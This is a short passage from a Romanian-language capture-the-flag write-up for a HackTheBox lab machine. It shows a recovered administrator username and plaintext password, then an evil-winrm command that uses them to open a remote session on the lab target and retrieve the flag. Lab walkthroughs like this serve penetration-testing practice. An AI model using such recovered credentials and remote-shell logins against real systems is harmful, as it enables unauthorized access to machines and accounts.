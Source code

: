 si aucm pe al 2-lea. 

![Fig. 41](./image-40.png)

Fig. 41

Bingo. 

**Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!**

1. Am sa presupun ca ce ne mai ramane de facut este sa facem o sesiune evil-winrm si sa accesam flagul. 

*evil-winrm -i 10.10.11.70 -u 'PUPPY.HTB\steph.cooper_adm' -p 'FivethChipOnItsWay2025!'* 

![Fig. 42](./image-41.png)

Fig. 42
